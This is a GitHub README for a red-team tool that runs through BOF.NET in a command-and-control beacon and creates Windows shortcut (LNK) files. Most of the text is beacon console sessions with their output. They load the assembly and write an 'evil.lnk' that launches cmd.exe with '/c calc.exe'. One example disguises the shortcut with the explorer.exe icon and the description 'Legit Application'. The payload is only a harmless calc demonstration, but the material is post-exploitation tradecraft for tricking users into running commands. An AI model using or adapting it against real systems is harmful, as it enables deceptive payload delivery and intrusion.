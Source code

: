 # LNK Creation BOF.NET
This is a simple [BOF.NET](https://github.com/CCob/BOF.NET) class for creating LNK files.

Dependent on the awesome [BOF.NET](https://github.com/CCob/BOF.NET) project created by [CCob](https://twitter.com/_EthicalChaos_).

## Usage
Initiate BOF.NET and load the assembly:
```
beacon> bofnet_init
[*] Initializing BOFNET
[+] host called home, sent: 487585 bytes
[+] received output:
[+] BOFNET Runtime Initalized, assembly size 480768, .NET Runtime Version: 4.0.30319.42000 in AppDomain BOFNET

beacon> bofnet_load /tools/lnkcreate.dll
[*] Attempting to load large .NET assembly /tools/lnkcreate.dll into BOFNET
[+] host called home, sent: 14530 bytes
[+] received output:
[+] Setting up new loader with unique id RINU6WCY
[+] Loaded assembly lnkcreate, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null successfully
```

Create a LNK file to run `cmd.exe` wtih arguments to run `calc.exe`:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6872 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```

Create a LNK file while setting the LNK icon to `explorer.exe` and add a description:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe" C:\Windows\explorer.exe "Legit Application"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6934 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
Icon: C:\Windows\explorer.exe
Description: Legit Application
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```
